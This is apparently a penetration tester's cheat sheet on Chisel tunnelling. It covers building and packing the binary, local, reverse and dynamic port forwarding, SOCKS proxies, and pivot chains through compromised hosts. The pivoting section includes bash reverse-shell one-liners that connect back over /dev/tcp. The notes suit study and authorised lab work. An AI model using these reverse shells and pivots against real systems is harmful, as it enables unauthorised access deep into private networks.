 # Chisel

Given the discrepancy between term used in [[Port-Redirection-And-Tunnelling]] as a authorial decision I am just going to try standardise the Offensive Security terminology - so read the linked article for information regard why this repository uses a particular set of definitions.

[Chisel](https://github.com/jpillora/chisel.git) *"is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (Golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network."*

![](chiselworksthisway.png)


## Compilation and Shrinking the binary

```bash
#!/bin/bash
git clone https://github.com/jpillora/chisel.git 
cd chisel/
# On Victim machine:
ldd --version # linux and windows


# To mimise binary size
# -s strip binary of debug info
# -w strip of dwarf infomation
go build -ldflags="-s -w" 
# Build for windows
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
upx chisel

# IPsec stuff I failed to get workingchisel server --port 8080 --reverse
go build -ldflags="-s -w"
upx brute chisel
chiselsize=$(du -hs chisel)
echo "Chisel is now ready and minimised: "
echo $chiselsize
```

Ran either on Attack box or target box as a server or client

- Regarding `--socks5` and `:socks`
	- *"When the chisel server has `--socks5` enabled, remotes can specify "socks" in place of remote-host and remote-port.The default local host and port for a "socks" remote is 127.0.0.1:1080. Connections to this remote will terminate at the server's internal SOCKS5 proxy."*

- Regarding `--reverse` and `R:`... TLDR: `--reverse` allows reverse port forwarding, `R:` perform reverse port forward
	- *"When the chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote that they are reversed. That is, the server will listen and accept connections, and they will be proxied through the client which specified the remote. Reverse remotes specifying "`R:socks`" will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy."*

Capture `chisel` traffic with `tcpdump` 
```bash
sudo tcpdump -nvvvXi tun0 tcp port $PORT
```

## Local Port Forwarding

```bash
# AttackBox
# -host otherwise default is 0.0.0.0
# -v is useful for checking connection 
# interfaceIP host ip for a tunX 
chisel server --host $interfaceIP -p 10000 
# Client
chisel client $interfaceIP:10000 127.0.0.1:10001
```

## Remote/Reverse Port Forwarding

```bash
# AttackBox
# -host otherwise default is 0.0.0.0
# -v is useful for checking connection 
# interfaceIP host ip for a tunX 
chisel server --host $interfaceIP -p 10000 --reverse
# Client
# R .. reverse from
# :$local_host == any interface opening a :$local_port
# To some :$remote_host:$remote_port
chisel client $interfaceIP:10000 R:$local_host:$local_port:$remote_host:$remote_port
# For example from the machine with the server you want to curl an internal webpage on 10.10.11.1:443, with access only to a client on 10.10.10.1
chisel client $serverIP:10000 R:10.10.10.1:12345:10.10.11.1:443
```

## Dynamic Port Forwarding  

```bash
chisel server --host $interfaceIP -p 10000 -v --socks5
chisel client $interfaceIP:10000  10001:socks
# comment sock4 ... and add to /etc/proxychains4.conf:
socks5 $serverIP $serverPort 
```

## Reverse Dynamic Socks Proxy

```bash
chisel server --host $interfaceIP -p 10000 -v --socks5 --reverse
chisel client $interfaceIP:10000  R:10001:socks
# comment sock4 ... and add to /etc/proxychains4.conf:
socks5 $serverIP $serverPort 
```

## Reverse Pivot with Chisel Explained:

Chisel is useful when you can not port forward with ssh. You would then need chisel for reverse pivoting, which is the reverse of port forward as the  **Remote box is listening** to connect back the attack to open up the tunnel. For information about [[Port-Redirection-And-Tunnelling]].

```bash
# AttackBox
chisel server -p 10000 -reverse # -v is useful for checking connection 
# Client
chisel client $attackboxIP:1000 R:8001:$targetip:$targetport
# Accessing through the tunnel on Attackbox
curl 127.0.0.1:8001 # will then access $clientip:$port
```


## Local Pivots and Chaining with Chisel Explained

Using `nohup` and `&` will background a job on a shell - very useful on linux  

Presuming you have a reverse shell on both 192.168.0.1 and 192.168.0.2, where `chisel server` has opened port `10001` from `nohup ./chisel client 10.10.10.10:10000 10002:127.0.0.1:10002 &` with second reverse shell on 192.168.0.2 being: `bash -c 'bash -i >& /dev/tcp/192.168.0.1/10001 0>&1'`; consider the following as:
```bash
# 10.10.10.10 = kali
# 192.168.0.1 = externally facing compromised box 
# 192.168.0.2 = internal virtual network not exposed to internet
# 192.168.0.3 = internal virtual network not exposed to internet

chisel server -p 10000 -reverse -v
# 192.168.0.1 - $kali
nohup ./chisel client 10.10.10.10:10000 10002:127.0.0.1:10000 &
# 192.168.0.2 - 
nohup ./chisel client 192.168.0.1:10002 10002:127.0.0.1:10002 &
# Reverse shell from 192.168.0.3
bash -c 'bash -i >& /dev/tcp/192.168.0.2/10002 0>&1'
```

[Consideration for Windows](https://learn.microsoft.com/en-US/troubleshoot/windows-client/deployment/create-user-defined-service)

## `SSH` and `chisel` with `ncat` 

If we has chisel socks proxy we can ssh into 10.10.10.10 with both `ssh` and `ncat` through the pivot! `ssh` plus `ncat` and `ProxyCommand` configuration option for SSH SOCKS Proxy
```bash
# SSH Formatting Tokens for ProxyCommand
# %h = host
# %p = port
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' admin@10.10.10.10
```

## 0xDF's TD;DR Cheat Sheet 

Start server listening on 8000:

`./chisel server -p 8000 --reverse`

From victim machine:

Command | Description
--- | ---
`chisel client 10.10.14.3:8000 R:80:127.0.0.1:80` | Listen on Kali 80, forward to localhost port 80 on client
`chisel client 10.10.14.3:8000 R:4444:10.10.10.240:80` | Listen on Kali 4444, forward to 10.10.10.240 port 80
`chisel client 10.10.14.3:8000 R:socks` | Create SOCKS5 listener on 1080 on Kali, proxy through clie

For SOCKS proxies don't forget `proxychains` and it configuration!


## References

[0xDF Tunneling with Chisel and SSF](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
[Alexis Rodriiguez Medium](https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683)
[Ippsec.Rocks](https://ippsec.rocks/?#)
[hdks](https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/#reverse-dynamic-socks-proxy)